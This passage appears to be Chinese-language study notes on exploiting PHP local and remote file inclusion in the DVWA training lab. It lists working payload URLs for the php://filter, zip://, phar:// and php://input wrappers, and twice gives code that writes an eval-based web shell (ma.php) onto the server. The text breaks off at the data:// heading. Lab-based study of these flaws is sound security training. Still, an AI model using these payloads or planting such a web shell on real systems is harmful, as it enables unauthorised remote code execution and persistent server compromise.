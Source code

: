 #### php://filter协议

> php://filter/read=convert.base64-encode/resource=

```
http:/192.168.70.10:8085/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=index.php
```

#### zip://、bzip2://、zlib://协议

> zip://[压缩文件绝对路径]#[压缩文件内的子文件名]

```
http:/192.168.70.10:8085/vulnerabilities/fi/?page=zip://C:/tools/phpstudy_pro/WWW/DVWA/test.zip%23test.txt
```

test.txt

```php
<?php phpinfo();?>
<?php fputs(fopen('ma.php','w'),'<?php @eval($_POST["cmd"]);?>');?>
```

![image-20240906155819172](https://image.201068.xyz/assets/30.文件包含/image-20240906155819172.png)

#### phar://协议

> phar://压缩包名/内部文件名

```
phar://x.zip/x.php
```

可相对路径

### 远程文件包含利用

#### 包含远程文件

```
?page=http://192.168.70.10:8085
```

#### php://input协议

```PHP
POST /vulnerabilities/fi/?page=php://input HTTP/1.1
host: 192.168.70.10:8085

<?php echo phpinfo(); ?>
<?php fputs(fopen('ma.php','w'),'<?php @eval($_POST["cmd"]);?>');?>
```

#### data://协议

> `data://[MIME类型][;base64]<数据>`
